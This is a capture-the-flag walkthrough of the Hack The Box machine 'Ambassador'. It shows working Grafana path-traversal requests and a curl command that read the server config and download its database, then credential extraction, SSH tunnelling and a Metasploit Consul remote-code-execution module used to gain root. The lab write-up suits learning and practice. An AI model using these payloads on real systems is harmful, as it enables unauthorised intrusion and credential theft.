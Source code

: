 ```yaml
---
title: Ambassador
author: 0xskar
date: 2023-01-08 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [grafana, curl, devops, sqlite, mysql, linux, cve-2021-43798, consul, git]
---
```


<https://app.hackthebox.com/machines/>

Break into a linux devops box exploiting LFI through an out of date analytics web app. Take advantage of the devops git to find a way to the root flag. 

- `sudo nmap -p- -T4 10.10.11.183 -vvvv`

Ports open: 22,80,3000,3006

- `sudo nmap -p22,80,3000,3306 -sC -sV -O 10.10.11.183 -vvvv`

## # Port 80

Nothing here I ran feroxbuster with medium raft directories but we do get a note

We get a note

- Use the **developer** account to SSH, DevOps will give you the password.

## # Port 3000 

Here we find a Grafana instance. Grafana is an open-source monitoring playform that allows you to alert and querty and visualize different data sourced, like databases. The key must be here? running feroxbuster yeild a shitload of nothing, checking the source of the grafana page and searching for "version" we find the Grafana version 8.2.0.

- `https://www.exploit-db.com/exploits/50581` - CVE-2021-43798 - Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files. The exploit works by being allowed to use the plugins in the api then directory traversal to read whatever you are allowed to ready on the system.

This script will use the exploit by doing all the work allowing us to view files use we can use this to read the grafana config files located at `/etc/grafana/grafana.ini` then use those credentials to login to grafana. 

```
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

We can also exploit this manually be sending a burpsuite request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

Okay so the exploit above doesnt allow us to really do anything other than read the files...Can we use a curl request to download the grafana.db On macOS and Linux, the default location is `/var/lib/grafana/grafana.db`.

- Burpsuite repeater request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

This pulls up a database

we can download this with curl

- `curl --path-as-is http://ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

And open in `sqlite3`

we can use `.tables` to see all tables then `SELECT * FROM user;` where we can see admin credentials.

1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2023-01-09 08:20:50|0

`dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069`

I thought this went soemwhere but after a ahwile of nothing went back in and checked the data_source table. I really, really, should have looked at all of the tables.

`2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-08 22:39:14|0|{}|1|uKewFgM4z`

- `mysql -u grafana -h ambassador.htb -p`

```
SHOW DATABASES;
SHOW tables;
SELECT * FROM USERS;
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

All of the other databases we dont have access to.

- `echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d` gives us `anEnglishManInNewYork027468`

and we are into the system!

# Privilege Escalation 


r-- 1 developer developer 93 Sep  2 02:28 /home/developer/.gitconfig
drwxrwxr-x 8 root root 4096 Mar 14  2022 /opt/my-app/.git

we find some git files here! this being a devops server probably the way to our flag

notice there is some stuff happening inside of /opt/ specifically a django server.

running `netstat -tulp` we can see there is some addesses that we are only able to access on localhost. in order to access these we need to setup a port-forward and can do this with via ssh.

```
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8600          0.0.0.0:*               LISTEN      -         
```

the consul service is only available on 8500 remotely

- `ssh -L 8500:localhost:8500 developer@ambassador.htb`

After creating a tunnel and checking out the 830x ports and not getting anywhere, I think his more to do with the git located here thought. So going to look into the git.

- `git log` shows git commit hisotry
- `git show` check the git commits in the history

checking the git commits so come accross a token of some sort `git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55` we find `consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWO`

checking metasploit there are some RCEs `multi/misc/consul_service_exec` 

using this exploit its pretty easy to get root with the ACL token rhosts set to localhost (because we forwarded the port) and the just the LHOST and LPORT.

cd to root for the last flag.
